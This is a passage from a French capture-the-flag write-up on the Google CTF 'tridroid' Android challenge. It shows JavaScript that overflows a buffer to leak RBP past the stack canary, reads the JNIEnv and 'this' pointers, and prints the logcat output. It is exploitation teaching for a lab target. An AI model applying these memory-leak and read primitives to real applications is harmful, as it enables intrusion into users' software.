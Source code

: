 Nous avons vu que pour appeler la fonction `invokeJavaMethod`, nous avons besoin d'un pointeur sur l'objet `JNIEnv` et d'un pointeur sur l'objet `This`. Nous pouvons trouver des références à ces deux objets au début de la fonction `Java_com_google_ctf_pwn_tridroid_MainActivity_manageStack` :

![](./images/envthis.png)

Nous voyons qu'ils sont stockés sur la pile à `RBP-0x60` et `RBP-0x68` respectivement (Ghidra ajoute 8 aux offsets de la pile car il commence à l'adresse de retour, IDA ne le fait pas).

Il s'avère que nous pouvons facilement divulguer la valeur de `RBP` car elle est stockée juste après le canari que nous avons divulgué plus tôt :

```javascript
// leak RBP
// RBP is at the end of the 40 bytes buffer, after the canary
modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242"+canary);
// skip 48 first bytes (4141...)
leak = top().substring(96);
RBP = unpack64(leak);
console.log("RBP : "+RBP.toString(16));
```

Cela donne :

```
08-03 20:37:57.854  9143  9143 I chromium: [INFO:CONSOLE(99)] "RBP : 785fce295c30", source:  (99)
```

Maintenant nous pouvons divulguer les pointeurs vers `JNIEnv` et `This` en utilisant notre primitive de lecture :

```javascript
// get jniEnv and this
JNI_env = unpack64(read(RBP-0x60)); // vu dans IDA
this_ptr = unpack64(read(RBP-0x68)); // vu dans IDA
console.log("JNI_env : "+JNI_env.toString(16));
console.log("this_ptr : "+this_ptr.toString(16));
```

Ceci fournit le résultat suivant :

```
08-03 20:40:08.152  9143  9143 I chromium: [INFO:CONSOLE(104)] "JNI_env : 7860e9512af0", source:  (104)
08-03 20:40:08.153  9143  9143 I chromium: [INFO:CONSOLE(105)] "this_ptr : 785fce295c54", source:  (105)
```

### Positionner les derniers arguments

Les dernières choses dont nous avons besoin sont :

1. Un pointeur sur le nom de la fonction que nous voulons appeler : "showFlag".
2. Un pointeur sur la signature de la fonction que nous voulons appeler : "()V".

Puisque de telles chaînes ne sont pas définies dans le binaire, nous devrons les écrire nous-mêmes quelque part. Pour cela, nous allons utiliser notre primitive d'écriture, mais nous devons d'abord trouver une région de mémoire inscriptible suffisamment grande.
